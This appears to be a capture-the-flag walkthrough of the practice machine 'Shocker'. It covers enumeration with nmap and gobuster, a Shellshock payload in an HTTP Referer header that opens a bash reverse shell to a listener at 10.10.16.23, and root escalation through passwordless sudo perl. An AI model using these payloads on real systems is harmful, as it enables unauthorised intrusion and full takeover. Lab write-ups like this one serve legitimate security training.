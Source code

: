 ### Shocker

#### Machine IP : 10.10.10.56
Difficulty: Easy

### Scanning

```bash
# Nmap 7.91 scan initiated Tue Jul  6 09:37:03 2021 as: nmap -A -oA nmap/initial 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.088s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 09:37:18 2021 -- 1 IP address (1 host up) scanned in 14.87 seconds
```

- Initial Homepage

![homepage](images/homepage.PNG)

__Running Gobuster__

```bash
$ gobuster dir -u  http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403                                                                                                                                1 ⨯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/small.txt
[+] Status codes:   200,204,301,302,307,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/07/06 09:43:42 Starting gobuster
===============================================================
/cgi-bin/ (Status: 403)
===============================================================
2021/07/06 09:43:51 Finished
===============================================================
````

- Found `/cgi-bin/` 

__Running gobuster on `/cgi-bin/`__

```bash
$ gobuster dir -u  http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403 -x sh,pl,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/small.txt
[+] Status codes:   200,204,301,302,307,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,pl,py
[+] Timeout:        10s
===============================================================
2021/07/06 09:50:15 Starting gobuster
===============================================================
/user.sh (Status: 200)
===============================================================
2021/07/06 09:50:54 Finished
===============================================================
```

- Found `/user.sh` script

Contents
```bash
$ cat user.sh          
Content-Type: text/plain

Just an uptime test script

 10:04:16 up  9:01,  0 users,  load average: 0.06, 0.03, 0.01
```

GET REQUEST
```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Server response(burpsuite- intercepted server response)
```bash
HTTP/1.1 200 OK
Date: Tue, 06 Jul 2021 14:09:20 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 118
                        # becuase of this blank line following is interpreted as response text and as content type is `x-sh` it is not interpreted correctly- change this to `text/plain`(intercepted browser responses in burp) and observe the browser contents
Content-Type: text/plain

Just an uptime test script

 10:09:20 up  9:06,  0 users,  load average: 0.00, 0.00, 0.00
 ```

 ![browser_response](images/browser_response.PNG)


 - Looking for shellshock using nmap

 ```bash
 $: nmap -p8081 -A -oA nmap/shellshock  --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```
> nmap didn't result in identifying the shellshock vulnerability but correctly executes the payloads

 ![nmap_request](images/nmap_request.PNG)

edited the request to following 

 ```http
 GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo; /bin/ls  
Connection: close
Host: localhost:8081
Content-Length: 2
```

> `/bin/ls` is changed from `ls` as it did'nt work

Adding a revers shell

```http
GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.16.23/4242 0>&1
Connection: close
Host: localhost:8081
Content-Length: 2
```

- set up the listener on kali and send the request

__Result__

```bash
$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.16.23] from (UNKNOWN) [10.10.10.56] 60780
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 
```

### Privilege escalation

- running `sudo -l` resulted that we can execute `perl` with root privileges

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

__Elevating privileges through `Perl`__

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e "exec('/bin/bash')"
sudo /usr/bin/perl -e "exec('/bin/bash')"
id
uid=0(root) gid=0(root) groups=0(root)
```
